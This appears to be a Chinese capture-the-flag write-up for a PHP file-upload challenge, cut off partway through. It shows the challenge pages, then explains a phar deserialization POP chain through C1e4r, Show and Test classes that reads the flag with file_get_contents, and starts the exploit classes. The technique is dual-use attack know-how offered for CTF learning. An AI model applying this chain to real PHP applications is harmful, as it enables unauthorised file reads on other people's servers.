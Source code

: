 
`file.php?file=index.php`

```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'base.php';
?>  
```

`file.php?file=upload_file.php`

```php
<?php 
include 'function.php'; 
upload_file(); 
?> 
<html> 
<head> 
<meta charest="utf-8"> 
<title>文件上传</title> 
</head> 
<body> 
<div align = "center"> 
        <h1>前端写得很low,请各位师傅见谅!</h1> 
</div> 
<style> 
    p{ margin:0 auto} 
</style> 
<div> 
<form action="upload_file.php" method="post" enctype="multipart/form-data"> 
    <label for="file">文件名:</label> 
    <input type="file" name="file" id="file"><br> 
    <input type="submit" name="submit" value="提交"> 
</div> 

</script> 
</body> 
</html>
```

`file.php`中存在`file_exists($file)`可以通过phar进行反序列化

`function.php`中通过`upload_file_check`对文件类型进行了限制

`class.php`中`Test`类下的`file_get`函数中存在`file_get_contents`,可以尝试对flag进行读取

`Test::file_get`由`Test::__get`进行调用,`__get`方法有个特性,当访问类中某个不存在的变量时,会自动对`__get`进行调用,但是没有代码可以直接对`Test`类进行调用,因此需要在某个地方新建一个`Test`类

注意到在`Show`类下的`__toString`函数中有`$this->str['str']->source`,假设`this->str['str']`指向`Test`类,而`Test->source`不存在,因此会对`Test::__get`产生调用,因此可以将`this->str['str']`设置为`Test`

`__toString`方法在试图将类作为字符串输出时进行调用,而在`C1e4r`类中`__destruct`函数中有`echo $this->test;`,假设`$this->test`设置为`Show`,那么就可以对`Show::__toString`进行调用

```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test."\n";
    }
}
class Show
```